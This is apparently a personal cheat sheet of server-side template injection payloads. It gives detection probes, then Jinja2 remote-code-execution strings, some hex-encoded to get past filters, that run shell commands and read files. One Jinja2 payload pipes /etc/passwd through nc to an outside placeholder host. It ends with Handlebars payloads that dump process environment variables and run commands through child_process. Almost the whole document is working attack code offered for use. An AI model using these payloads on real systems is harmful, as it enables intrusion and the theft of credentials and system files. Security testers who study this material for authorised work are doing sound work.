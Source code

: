 # Template Injection
https://portswigger.net/web-security/server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
## Detect
To detect template injection start with following
```
${7*'7'}
{{7*7}}
```
https://portswigger.net/web-security/images/template-decision-tree.png

## Exploitation
### Jinja2
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

```python
{{"".__class__.__mro__[1].__subclasses__()[186].__init__.__globals__["__builtins__"]["__import__"]("os").popen("cat flag.txt").read()}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']()}}
{{request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']()}}
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}

# Reverse shell with Jinja2 injection
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /etc/passwd | nc HOSTNAME 1337')['read']() == 'chiv' %} a {% endif %}
```
### handlebars
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-in-an-unknown-language-with-a-documented-exploit

https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md#handlebars
```
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{#with obj.constructor.name as |str|}}
            {{#blockHelperMissing str.toString}}
              {{#with (arr.constructor (str.toString.bind "return JSON.stringify(process.env);"))}}
                  {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                      {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                          {{#with (obj.constructor.constructor "test")}}
                            {{this}}
                          {{/with}}
                      {{/with}}
                  {{/with}}
              {{/with}}
            {{/blockHelperMissing}}
        {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
